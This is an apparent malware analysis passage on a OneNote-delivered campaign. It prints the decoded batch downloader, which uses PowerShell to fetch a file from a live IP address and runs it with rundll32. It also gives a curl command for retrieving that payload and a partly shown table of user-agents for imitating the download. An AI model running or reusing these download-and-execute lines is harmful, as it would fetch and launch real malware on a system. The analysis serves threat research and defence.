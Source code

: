 This command launches PowerShell and sets a variable, \$aV2hgYDB, to a
specific value. It then decodes a base64-encoded string then executes
the resulting command, which downloads and executes a file from a
specific URL. The output of this command is redirected to a file named
\"1.cmd\" located in the "Public" user folder, and the script then
launches this file, running the command contained within it. We have the
following decoded Base64 code:

*\@echo off\
set aMeW1E=a80yOs\
set aTZpoL=aqD18GY\
set afhHeJ=aGsK4yUjf\
powershell (new-object
system.net.webclient).downloadfile(\'http://216.120.201.100/60852.dat\',\
\'C:\\programdata\\gb.jpg\');\
set ajas4bEF=afwUpQ\
set a8lWIj4=axT8uv9p\
call ru%1ll32 C:\\programdata\\gb.jpg,Wind\
exit*

This script begins by turning off command echoing. It then sets several
variables to specific values. The script executes a PowerShell command
to download a file from a specified URL and save it to
\'C:\\programdata\\gb.jpg\'. The script executes a command to run
\"rundll32\" command and the \'C:\\programdata\\gb.jpg\' file as
arguments along with *Wind* as module name. This will execute the file
as a DLL. 

To download the remote payload, the malware uses *powershell (new-object
system.net.webclient).downloadfile* which makes a request to remote host
without User-Agent header. We observed in other OneNote campaigns which
uses *cURL* (is a popular Linux tool but it has been part of Windows 10
and later versions) and *PowerShell Invoke-WebRequest.*Since the malware
is evolving over the time, one might want to fetch the remote payload
manually to monitor by executing the following command: 

*curl http://216.120.201.100/60852.dat -H \'User-Agent:\'
\--output gb.jpg*

The following table is a list of recommended user-agents to reproduce
according to downloading techniques used by malicious payloads:

Technique

Recommended User-Agent

*curl*

curl/7.86.0

*powerShell Invoke-WebRequest*

Mozilla/5.0 (Windows NT; Windows NT 10.0; de-DE)\
WindowsPowerShell/5.1.17763.316

*powershell (new-object system.net.webclient).downloadfile*

